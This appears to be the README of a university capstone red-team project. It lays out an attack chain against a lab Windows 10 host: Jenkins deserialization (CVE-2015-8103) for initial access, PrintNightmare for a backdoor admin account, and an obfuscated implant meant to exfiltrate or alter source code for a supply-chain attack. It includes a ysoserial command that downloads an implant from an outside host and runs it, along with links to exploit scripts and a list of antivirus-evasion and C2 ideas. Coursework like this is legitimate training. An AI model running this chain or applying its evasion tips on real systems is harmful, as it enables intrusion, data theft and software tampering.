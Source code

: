 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Persistence        : Use Printer Nightmare (CVE-2021-34527) to create backdoor admin account
- Purpose            : Exfiltrate source/modify source code for supply chain attack

## Setup vulnerable windows VM
- Install Windows 10 VM
- Disable Windows firewall
- Set the following registry values at `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint`:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add `JAVA_HOME` to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Building the Implant
- `cd` into the `implant/` directory and run `cl implant.c /Os /Fe:implant.exe /Zi`
- Run the Alcatraz obfuscator on the implant (https://github.com/weak1337/Alcatraz)
    - Note: Do this in a VM to be safe since Defender flags Alcatraz as malware.
    - You will need to copy all of the geneated files over(`.pdb, .ilk, .exe` etc...)
    - In Alcatraz obfuscate all functions, and ensure entrypoint obfuscation is checked
    - This produces `implant.obfs.exe`, which is the final version

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payload that downloads an implant from 192.168.187.13:8080 and executes it:
    - `java -jar ysoserial-all.jar CommonsCollections7 "curl 192.168.187.13:8080/implant.exe --output implant.exe && implant.exe" > payload`
- Python exploit script:
    - https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/payload`
    - Might need to run a few times to get the RCE to work
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Max size for file writes is 100 Kb - increase this?

## Future Improvements
- Use HTTPS rather than HTTP
    - Don't need to implement encryption ourselves
- Do C2 over DNS and exfil over HTTPS instead (synchronization issues)
    - Much higher exfiltration bandwidth
- Write a custom packer to make reversing even harder
    - Tried using UPX, got flagged instantly
- Use a custom payload for printer nightmare
    - The built-in payload is flagged when host is connected to the internet
- Delete binary after exit more stealithly
    - Instead of spawning cmd, maybe spawn a different process and create a remote thread
- String obfuscation
    - Can get useful data from strings in binary
